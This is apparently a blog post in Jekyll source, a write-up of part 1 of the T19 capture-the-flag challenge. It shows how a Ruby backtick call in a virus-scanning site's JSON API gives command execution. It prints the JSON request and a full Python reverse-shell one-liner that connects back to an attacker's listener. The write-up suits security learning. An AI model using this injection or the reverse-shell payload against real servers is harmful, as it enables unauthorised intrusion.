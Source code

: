 ```yaml
---
layout: post
title: T19 Challenge (Part 1)
---
```


The T19 Challenge was hosted by [Twistlock Labs](https://www.twistlock.com/labs/) last week on [http://t19challenge.com/](http://t19challenge.com/).

> Welcome. 
>
> Our company developed a unique Linux binary called "cat". We recently discovered that our competitors from the Antivirus company VirusExpress are blocking our cat binary. It is now signed as a **virus**. Word is that you are a badass security researcher. We need you to **infilitrate their server** and **empty their database**.

There are 3 parts of varying difficulty to this challenge. The vulnerabilities may look simple, but are really challenging to exploit.

In summary, we are provided with a virus scanning [site](http://virus.express/), which we must exploit a **command injection vulnerability** to gain access to the server. After which, we could escalate priviledges by exploiting a **buffer overflow vulnerability**, in a setuid binary that acts as a client to the virus database. Finally, we gain root access by exploiting a **buffer overflow vulnerability** in the database service ran by the root user.

This post is about the getting the first flag of the challenge, by exploiting a command injection vulnerability in the virus uploading API. 

If you would like to skip this part, here are the links to [part 2][part2] and [part 3][part3].

### Recon
The target, [virus.express](http://virus.express/), has a simple interface, allowing a user to upload a binary and check whether it is a virus.

![website][website-screenshot]

![danger][danger-screenshot]

Viewing the source, I found an interesting `TODO` left by the devs.

```html
2. Add documentation on the experimental JSON API on /api
```

Opening [virus.express/api](http://virus.express/api) in the browser gives the following response.

```json
{"success":false,"response":"Please deliver something next time."}
```

### Exploring the API
To ease poking around with the API, I intercepted the request with Burp. Through trial and error, by changing from `GET` to `POST` request, adding a `Content-Type: application/json` header, and sending a dummy `{"hello": "world"}` as data, the following error page is returned.

![error][error-screenshot]

It looks like the program errored out at the line

`response = {:success=>true, :response=>(is_virus? body[:file][:hash], body[:file][:name], body[:cmd])}`

As this was ruby syntax, it looks like we are expected a JSON object with fields `cmd` and `file`, where `file` is another object consisting of fields `hash` and `name`. So, we can modify our data to be 

```json
{
    "cmd": "ls", 
    "file": {
        "hash": "hello", 
        "name": "hello"
    }
}
```

![hash-error][hash-error-screenshot]

Another error. But this time, it looks like really good information. In particular, we can see the following line

`` `#{cmd} "#{encoded}" "#{filename}"` ``

In ruby, putting backticks around a string is to execute it as a shell command. This means we got arbitrary code execution!

But before that, the error needs to resolved so that we can execute what we want. It turns out that the `hash` is being passed into `Z85rb.encode()`, which expects a string with length of a multiple of 4. A simple fix is to set both `hash` and `name` as empty strings, so that they do not interfere with our `cmd`.

### Getting a reverse shell
Interacting with the server by constantly changing the `cmd` field is not a good experience. A more convenient method is to spawn a reverse shell.

Unfortunately, as with usual production machines, this one does not have `netcat` installed, which is used most often when trying to create a reverse shell. Nevertheless, we can go through this [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and try the commands one by one.

In the end, the `python` one worked out for me.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just need to run `nc -lvp 8000` on a VPS, send to /api `cmd` set as the command above, and I get a shell to the server as user `rubyist`.

<script id="asciicast-lE2IirQBegq5Wb3ZgbtlU3zv3" src="https://asciinema.org/a/lE2IirQBegq5Wb3ZgbtlU3zv3.js" async></script>

---

In [part 2][part2], we exploit a buffer overflow in a setuid binary to escalate priviledges as `ben`.

Actually, I'm not sure if it is even right to say that there is a command injection vulnerability, since we don't need to tweak the input to execute our command.

If there is anything unclear, feel free to leave a comment below.

[part2]:/t19-challenge-2.html
[part3]:/t19-challenge-3.html
[website-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/website.png
[danger-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/danger.png
[error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/error.png
[hash-error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/hash-error.png